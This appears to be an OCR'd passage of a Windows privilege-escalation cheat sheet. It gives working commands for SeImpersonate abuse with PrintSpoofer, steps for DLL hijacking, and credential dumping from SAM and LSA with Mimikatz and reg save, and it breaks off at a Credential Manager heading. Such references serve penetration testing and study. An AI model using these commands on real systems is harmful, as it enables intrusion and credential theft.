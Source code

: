 
#### **SeImpersonate / SeAssignPrimaryToken Privilege Escalation**

These powerful user privileges can often be abused to impersonate the `SYSTEM` user and execute code.

* **Exploitation (with PrintSpoofer):**
    ```powershell
    # Verify you have the privilege
    whoami /priv
    # Launch a command prompt as SYSTEM
    PrintSpoofer.exe -i -c "cmd.exe"
    ```

---

#### **DLL Hijacking**

This occurs when an application tries to load a DLL without specifying its full path.

* **Tools:** Use **ProcMon (Process Monitor)**. Filter for `NAME NOT FOUND` results for operations on files ending in `.dll`.
* **Exploitation:** Craft a malicious DLL with the same name as the missing one. Place your malicious DLL in the writable location. Restart the application.

---

#### **Sensitive Files & Hashes (SAM/LSA Secrets)**

If you gain administrative access, you can dump password hashes from the **SAM** file and other secrets from **LSA** memory.

* **Commands & Tools (Mimikatz):**
    ```powershell
    # Must be run from a high-privilege prompt
    privilege::debug
    lsadump::sam
    ```
* **Manual Registry Save:**
    ```powershell
    reg save hklm\sam C:\tmp\sam.save
    reg save hklm\system C:\tmp\system.save
    ```

---

#### **Windows Vault / Credential Manager**

The Windows Credential Manager stores saved credentials for network shares, RDP sessions, and websites.
